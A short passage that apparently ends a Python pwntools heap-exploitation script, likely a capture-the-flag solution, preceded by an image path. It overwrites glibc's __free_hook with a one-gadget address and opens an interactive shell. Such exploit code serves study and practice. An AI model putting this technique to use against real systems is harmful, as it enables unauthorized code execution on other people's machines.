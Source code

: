 ```py
    alloc(0, p64(libc.sym.__free_hook - 0x8) + b"X"*0x128)
    alloc(0, b"A"*8 + p64(libc.address + 0xe3b01) + b"B"*0xe0, pwn=True)

    r.interactive()

if __name__ == '__main__':
    main()
```
